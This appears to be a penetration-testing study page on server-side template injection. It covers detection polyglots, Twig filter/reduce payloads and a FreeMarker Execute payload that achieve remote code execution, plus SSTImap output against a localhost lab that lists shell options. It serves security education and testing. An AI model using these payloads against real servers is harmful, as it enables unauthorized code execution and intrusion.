


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSTI


**Server-Side Template Injection (SSTI)** is a vulnerability where an attacker injects malicious template code into server-side templates, which is then executed by the server.



This can lead to remote code execution, data exposure, and unauthorized access, as attackers can manipulate the server-side template engine to run arbitrary code.



Validate and sanitize all user inputs, avoid using untrusted data in templates, and restrict the template engine's features to limit the potential impact of injections.


## Identification

### Manual

We can use polyglots to induce errors. The **error polyglot** produces an error message to 44 template engines. However, errors might be caught by the application. The **non-error polyglots** are constructed in such a way that at least one of them does not throw an error, but renders the polyglot modified for all popular template engines.

```bash
# The error polyglot
<%'${{/#{@}}%>{{
# Non-error polyglots
">[[${{1}}]]
<%=1%>@*#{1}
{##}/*{{.}}*/
```

```
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

<figure><figcaption><p>Figure 1: Identifying template engines (<em>image taken from</em> <a href="https://portswigger.net/web-security/server-side-template-injection"><em>here</em></a>).</p></figcaption></figure>

### Automatic

Tools like [TInjA](https://github.com/Hackmanit/TInjA), [SSTImap](https://github.com/vladko312/sstimap), and [j2ee-scan](https://github.com/PortSwigger/j2ee-scan) (Burp Pro) can automatically test for SSTI flaws by injecting combinations of special characters in template expressions (`${{<%[%'"}}%\`). Vulnerability indicators include:

* Thrown errors, revealing the vulnerability and potentially the template engine.
* Absence of the payload in the reflection, or parts of it missing, implying the server processes it differently than regular data.
* **Plaintext Context**: Distinguish from XSS by checking if the server evaluates template expressions.
* **Code Context**: Confirm vulnerability by altering input parameters. For instance, changing `greeting` in `http://vulnerable-website.com/?greeting=data.username` to see if the server's output is dynamic or fixed, like in `greeting=data.username}}hello` returning the username.

## Twig

### filter

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 2).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><figcaption><p>Figure 2: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined [previously ](ssti.md#manual)(Figure 3). Twig uses PHP which does not check the variable type and as a result it treats `7` and `'7'` the same.

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><figcaption><p>Figure 3: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed a server-side and not a client-side template injection, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig), in this case leveraging the [`filter`](https://twig.symfony.com/doc/3.x/filters/filter.html) filter, and achieve RCE[^1] (Figure 4).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><figcaption><p>Figure 4: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).


```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```


### reduce

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Another filter we can leverage is the [`reduce`](https://twig.symfony.com/doc/3.x/filters/reduce.html) filter which takes an arrow function and an initial value as arguments (Figure 5).

```twig
{{[0]|reduce('var_dump','Hello')}}
```

<figure><figcaption><p>Figure 5: Testing the <code>reduce</code> filter.</p></figcaption></figure>

We can replace the arguments with something that executes system commands, such as PHP's [`system`](https://www.php.net/manual/en/function.system.php) function and achieve RCE (Figure 6).

```twig
{{[0]|reduce('system','whoami')}}
```

<figure><figcaption><p>Figure 6: Leveraging the <code>reduce</code> filter to achieve RCE.</p></figcaption></figure>

## Freemarker

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We can leverage the [`Execute`](https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html) class which implements the `TemplateModel` interface to achieve RCE in a FreeMarker templating engine.

```ftl
${"freemarker.template.utility.Execute"?new()("whoami")}
```

## Resources











{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}







[^1]: Remote Code Execution
